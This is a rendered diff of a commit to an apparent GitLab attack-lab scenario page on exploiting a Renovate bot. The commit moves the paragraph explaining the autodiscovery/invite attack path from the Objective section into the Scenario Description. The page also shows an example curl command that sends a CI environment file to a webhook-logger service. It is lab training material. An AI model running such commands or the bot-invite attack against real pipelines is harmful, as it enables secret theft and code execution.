

Before and after one commit to sploutchy/gitlab-attack-lab, a Markdown page: lab-config/scenarios/scenario-03-renovate-bot-exploitation.md, 2 parts joined by grey strips. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
Move attack-context explanation out of scenario-03's Objective
The Objective mixed the scenario's goal with a paragraph explaining
the autodiscovery attack precondition, making it read unclear. Keep
the Objective focused on the goal, and move the explanation into
Scenario Description where it belongs alongside the rest of the
walkthrough.

```diff
--- a/lab-config/scenarios/scenario-03-renovate-bot-exploitation.md
+++ b/lab-config/scenarios/scenario-03-renovate-bot-exploitation.md
@@ -44,10 +44,7 @@ hints:
 
 ## Objective
 
-Identify a Renovate bot technical user which is used for running Renovate. In this scenario we assume
-that the renovate configuration includes the auto discovery configuration. If this is set and not
-restricted properly an attacker can invite the bot user (Gitlab by default auto accepts invites)
-and let it renvoate its own malicious repository, leading to code execution in the Renovate bot process.
+Identify a Renovate bot technical user which is used for running Renovate.
 
 ## Background
 
@@ -66,6 +63,8 @@ Other helpful commands:
 
 ## Scenario Description
 
+In this scenario we assume that the renovate configuration includes the auto discovery configuration. If this is set and not restricted properly an attacker can invite the bot user (Gitlab by default auto accepts invites) and let it renvoate its own malicious repository, leading to code execution in the Renovate bot process.
+
 **Helper Service:** To extract information from CI/CD pipelines, you can use the webhook logger service at `http://localhost:7705`. Any request to it will be logged and you can view the request logs at `http://localhost:7705/logs`.
 
 Example curl command: `curl -k -sSf -X POST -F "files=@$ENV_FILE" http://webhook-logger:8084`
```
